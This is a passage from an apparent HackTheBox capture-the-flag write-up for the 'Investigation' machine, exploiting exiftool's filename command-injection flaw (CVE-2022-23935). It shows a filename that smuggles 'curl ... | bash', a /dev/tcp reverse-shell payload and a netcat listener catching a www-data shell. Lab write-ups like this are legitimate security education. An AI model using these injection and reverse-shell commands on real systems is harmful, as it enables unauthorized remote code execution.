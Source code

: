 ![exif cat initial](/img/investigation/Investigation_exif_results.png)

I baked some html tags into the exif data but the file it places the results into has a **.txt** extension, which won't let me by render html or other code for that matter. I did manage to find [this exiftool sanitization bypass](https://blog.bricked.tech/posts/exiftool/#the-bug) but there is a core problem where I would need exiftool to parse a specific file before it would let me bypass, likely not the play here. 

<h1>User as www-data</h1>

<h2>CVE-2022-23935</h2>

There is however something to go off here. Exiftool gave us its version which is 12.37 and upon searching for CVEs associated with exiftool [cvedetails notes a vulnerability for <12.38](https://www.cvedetails.com/vulnerability-list.php?vendor_id=19612&product_id=0&version_id=0&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&cweid=0&order=1&trc=2&sha=bf20f9cbf8f5254d3614f7fc965ae0c78f9a125e), convenient that we are one version earlier isn't it. 

[Here is a proof of concept](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) where it can be demonstrated that these versions of exiftool in question poorly handle special characters in the file name. I can couple this with hosting a local server and making index.html a reverse shell for the exiftool bash commands to run. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Investigation]
└──╼ $ls
'curl 10.10.14.14| bash |'   index.html
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Investigation]
└──╼ $cat index.html 
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```

Now I upload the file and wait for my shell.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Investigation]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.197] 51828
bash: cannot set terminal process group (956): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1677444973$ iidd

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
